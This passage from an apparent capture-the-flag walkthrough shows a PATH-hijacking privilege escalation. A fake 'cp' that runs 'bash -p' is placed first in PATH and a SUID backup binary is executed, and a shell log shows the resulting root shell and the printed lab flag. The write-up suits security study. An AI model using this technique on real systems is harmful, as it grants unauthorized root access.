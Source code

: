     Make a file called cp in a new directory and fill it with bash -p
    Make this file executable --> chmod +x cp
    Add the new directory to the beginning of $PATH --> export PATH="/dev/shm/random123/:$PATH"
    Execute the SUID binary --> /home/archangel/secret/backup

```
archangel@ubuntu:/tmp/Priv$ chmod +x cp
chmod +x cp
archangel@ubuntu:/tmp/Priv$ export PATH=/tmp/Priv/:$PATH
export PATH=/tmp/Priv/:$PATH
archangel@ubuntu:/tmp/Priv$ echo $PATH
echo $PATH
/tmp/Priv/:/tmp:/tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
archangel@ubuntu:/tmp/Priv$ /home/archangel/secret/backup
/home/archangel/secret/backup
root@ubuntu:/tmp/Priv#
root@ubuntu:/tmp/Priv# whoami
whoami
root
root@ubuntu:/tmp/Priv# cd /root
cd /root
root@ubuntu:/root# ls
ls
root.txt
root@ubuntu:/root# cat root* 
cat root*
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}

```